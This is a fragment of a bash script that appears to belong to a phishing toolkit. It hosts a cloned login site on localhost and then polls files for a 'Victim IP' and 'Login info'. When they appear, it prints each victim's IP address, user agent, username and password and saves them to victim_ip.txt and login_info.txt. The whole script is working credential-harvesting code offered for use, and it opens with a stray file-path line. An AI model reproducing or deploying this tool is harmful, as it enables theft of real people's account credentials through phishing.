read port
port="${port:-${def_port}}"
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Initializing...\e[0m\e[1;92m(\e[0m\e[1;96mlocalhost:$port\e[0m\e[1;92m)\e[0m\n"
cd websites/$server && php -S 127.0.0.1:$port > /dev/null 2>&1 &
sleep 2
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Successfully Hosted at :\e[0m\e[1;93m http://localhost:$port\e[0m\n"
printf "\n"
found
}
found() {
printf "\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Waiting for Login Info,\e[0m\e[1;96m Ctrl + C to exit.\e[0m\n"
printf "\n"
while [ true ]; do
if [[ -e "websites/$server/ip.txt" ]]; then
printf "\n"
printf " \e[1;31m[\e[0m\e[1;77m*\e[0m\e[1;31m]\e[0m\e[1;92m Victim IP Found!\n"
printf "\n"
c_ip
rm -rf websites/$server/ip.txt
fi
sleep 0.75
if [[ -e "websites/$server/usernames.txt" ]]; then
printf " \e[1;31m[\e[0m\e[1;77m*\e[0m\e[1;31m]\e[0m\e[1;92m Login info Found !!\n"
printf "\n"
c_cred
rm -rf websites/$server/usernames.txt
fi
sleep 0.75
done
}
c_ip() {
touch websites/$server/login_info.txt
ip=$(grep -a 'IP:' websites/$server/ip.txt | cut -d " " -f2 | tr -d '\r')
IFS=$'\n'
ua=$(grep 'User-Agent:' websites/$server/ip.txt | cut -d '"' -f2)
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Victim IP:\e[0m\e[1;96m %s\e[0m\n" $ip
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Saved:\e[0m\e[1;93m websites/%s/victim_ip.txt\e[0m\n" $server
printf "\n"
cat websites/$server/ip.txt >> websites/$server/victim_ip.txt
}
c_cred() {
account=$(grep -o 'Username:.*' websites/$server/usernames.txt | cut -d " " -f2)
IFS=$'\n'
password=$(grep -o 'Pass:.*' websites/$server/usernames.txt | cut -d ":" -f2)
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Account:\e[0m\e[1;96m %s\n\e[0m" $account
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Password:\e[0m\e[1;96m %s\n\e[0m" $password
cat websites/$server/usernames.txt >> websites/$server/login_info.txt
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Saved:\e[0m\e[1;93m websites/%s/login_info.txt\e[0m\n" $server
printf "\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Waiting for Next Login Info,\e[0m\e[1;96m Ctrl + C to exit.\e[0m\n"
}